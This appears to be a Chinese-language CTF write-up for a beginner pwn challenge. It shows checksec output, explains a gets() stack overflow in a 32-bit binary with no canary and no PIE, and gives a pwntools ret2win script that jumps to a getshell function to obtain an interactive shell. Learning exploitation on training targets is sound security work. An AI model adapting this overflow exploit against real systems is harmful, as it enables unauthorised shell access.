


[[toc]]

> 32位寄存器4个字节，函数传参只使用栈

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 小狗汪汪汪

使用file和checksec 查看elf的位数和安全保护
```bash
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file woof
woof: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b3b9279f6e821fe77197c0b174bfee82dd39de52, not stripped
                                                                       
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=woof
[*] '/home/kali/win/Downloads/woof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
> 可以看到是32为小段序程序，且没有开启栈保护


## IDA反编译源码


可以看到main函数的流程，值得注意的是 dog函数



很明显可以看到gets这里存在栈溢出，s是一个长度为9的字符数组


要覆盖的地址在 栈上的 s + ebp 的位置 也就是 9 + 4

然后找一下有没有可以执行系统命令的函数


存在getshell函数

我们获取它的地址是 0x0804859B

## 编写exp脚本
> 使用pwntools库 可以方便的编写exp
```py
pwn import *

io = process("./woof")
# io = remote("120.46.59.242", 2111)

getshell_addr = 0x0804859B

padding = 9 + 4

payload = b'A' * padding + p32(getshell_addr)

io.send(payload)
io.interactive()

```

执行脚本后可获得交互shell